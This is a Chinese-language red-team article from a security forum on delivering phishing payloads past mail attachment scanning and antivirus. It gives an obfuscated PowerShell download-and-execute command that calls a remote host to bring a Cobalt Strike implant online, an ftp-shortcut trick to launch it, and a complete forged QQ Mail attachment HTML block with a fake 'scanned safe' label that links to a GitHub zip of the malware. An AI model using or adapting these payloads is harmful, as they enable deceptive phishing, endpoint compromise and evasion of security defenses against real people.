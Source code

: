 

# 奇安信攻防社区 -【HVV2022】邮件钓鱼 bypass 附件检测&&杀软一把梭

### 【HVV2022】邮件钓鱼 bypass 附件检测&&杀软一把梭

某护也快开始了，希望能够提供一些借鉴意义

# 0x01 前言

先申明利益相关方，本文章仅为思路分享，品牌关键处会打码处理，不过确实挺有意思的，某护也快开始了，希望能够提供一些借鉴意义。

# 0x02 ByPass AV

将恶意文件，上传到 github 项目

```php
https://github.com/punch0day/cs_test
```

![图片](assets/1708220649-f0143f7828da94ca8e83969022a28b37.png)

有经验的师傅，一眼就可以看出，这是 Link 钓鱼

但是某压缩包是检测为安全的

![图片](assets/1708220649-d859edd4ef7e097ed5ea6ea47977ea29.png)

![图片](assets/1708220649-8784d963ad567335090092d505b73068.png)

VirusTotal 全球 57 家厂商，只有 1 家能够检测出来，过国内所有杀软不在话下，篇幅原因，powershell 混淆技巧不细讲，师傅们可以先关注我，留作下次分享

**源码如下：**

```php
aaa.dll
#ftp 快捷方式运行时，会加载此 dll
!cmd /c po^we^rs^he^ll -ex^ec b^yp^ass .\\bbb.ps1
```

```php
bbb.ps1
#cs 上线
powershell.exe -nOp -w hIdDEn -c $ExeCuTiOnCoNtExT.InvOkeCoMmAnD.NeWScriPtBlOcK("IE##X ((nE##w-ObJe##ct ('nE##T.wEB##cLiEnT')).('doWnl##OadStRiNg').inVo##KE('ht'+'tp:/'+'/19'+'2.16'+'8.20'+'6.1'+'32:8'+'0/a'))".Replace("##",""))
```

（ps：可过所有静态查杀，动态的查杀看情况，像 360 杀毒（非卫士），win defender 可过，国内某些杀软一调用 powershell 进程就报可疑）

![图片](assets/1708220649-8e0806c1ee57c4d813cc0a0278ebcbdf.png)

快捷方式改为以上这样就行了，原理上是利用了 ftp 命令模式下，输入！会命令执行，**这个是其他师傅的方法，非原创，但是 bypass 是自己做的**

![图片](assets/1708220649-b0337a8104a80e8f29957deba32b2569.png)

只要一打开快捷键，立马 cs 上线

![图片](assets/1708220649-50b3f57104f9de0d07527a4d15c5943c.png)

```php
参考文献：
【2022HVV系列】|9\-红蓝对抗之钓鱼篇：常见钓鱼思路总结
https://www.77169.net/html/291698.html
PowerShell攻击的混淆方法总结
http://www.mchz.com.cn/cn/service/Safety-Lab/info_26_itemid_3320.html
```

# 0x03 ByPass 邮箱附件检测

上传到 github 上后，选择将 code 下载为 zip 格式，下载到本地后，找到游览器的历史下载记录，并复制下载链接

```php
https://codeload.github.com/punch0day/cs_test/zip/refs/heads/main
```

打开某邮箱，找到一个带有附件的邮件

![图片](assets/1708220649-4c7212784d21eb0bbb169d4944ecd641.png)

复制附件的 html 代码

![图片](assets/1708220649-20fc5d7b2dd8a193e00722cd6ffb46b1.png)

发送邮件，进行测试，选择“格式”插入 html，粘贴 html 代码

![图片](assets/1708220649-68ec8e503de92914f31ac0fa0e698a87.png)

找到“下载”的<a>标签 进行修改 改为<a href=”刚才 github 的下载链接”>

**整个 payload 如下：**

```php
<div id="qm_con_body"><div id="mailContentContainer" class="qmbox qm_con_body_content qqmail_webmail_only" style="opacity: 1;"><div id="attachment" a="" b="false" style="padding:2px;" class="attbg" ui-type="attCon"><div style="padding:6px 10px 10px 8px;" class="txt_left"><div style="height:14px;">            <b style="font-size:14px;"><img src="https://rescdn.qqmail.com/zh_CN/htmledition/images/spacer1e9c5d.gif" align="absmiddle" class="ico_att showattch" border="0" style="margin:-3px 2px 0 0;">附件</b>(<span id="attachmentCount">1</span> 个)</div></div><div style="padding:0 8px 6px 12px;background:#fff;_height:60px;line-height:140%;"><div class="graytext clear" style="padding-top:12px; padding-bottom:5px"><span style="color:#000;font-weight:bold;font-size:12px;">普通附件</span>                <span id="span_ZL0012_1yrN1r~M_twu3KkAAIjVLc5_safe"> (<span class="ico_Avira"></span>已通过电脑管家云查杀引擎扫描)</span>                        </div><div class="att_bt attachitem"><div class="ico_big"><a id="AttachIconAZL0012_1yrN1r~M_twu3KkAAIjVLc50" attach="1" attid="请重点关注.docx" viewmode="doc" url="/cgi-bin/viewdocument?sid=lGnwl-6PmrgMcwZk&amp;filename=1.docx&amp;mailid=1&amp;retry=true&amp;t=attachments_content&amp;ef=qfunc&amp;s=yozo&amp;fromattach=1" ck="previewAttach2" idx="0" filename="请重点关注.docx" down="/cgi-bin/download?mailid=1&amp;filename=1.doc" iconurl="/zh_CN/htmledition/images/xdisk/ico_mid/fu_doc.gif" filebyte="15360" sparse2onlinedocurl=""><img style="width:auto;" src="/zh_CN/htmledition/images/xdisk/ico_mid/fu_doc.gif"></a></div><div class="name_big">            <span player="/cgi-bin/download?mailid=1&amp;filename=1.docx&amp;sid=1">请重点关注.docx</span><span class="graytext">&nbsp;(15K<span id="span_attachIndex_ZL0012_1yrN1r~M_twu3KkAAIjVLc5_cd690305b12fa8de1acdd0ee2fc76181" style="display:none">, <span style="color: #C00;">附件包含病毒，请勿下载打开 </span></span>)</span><div class="down_big"><a ck="previewAttach" select="1" sparse2onlinedocurl="" down="/cgi-bin/download?mailid=1&amp;filename=1.docx&amp;sid=1">预览</a>&nbsp; <a href="https://codeload.github.com/punch0day/cs_test/zip/refs/heads/main">下载</a>&nbsp;&nbsp; <a style="" flag="0" class="needSetFlag" attachkey="1|1.docx|1.docx|15360"><span>收藏</span></a><span style="display:none;" class="graytext"><span>已收藏， </span><a>查看</a></span>&nbsp;&nbsp; <a ui-type="netdiskBind" attid="1|1|1" class="netdisk_hide"><span>转存</span><span class="bind_down_icon"></span></a></div></div></div></div></div></div></div>
```

![图片](assets/1708220649-176aa10252e35a5639c8f67f003d1696.png)

**亲测可行，不管是企业邮箱，个人邮箱，桌面端，移动端，全部都是本地直接下载，附件不会经过邮箱的任何安全检测，直接 bypass！**
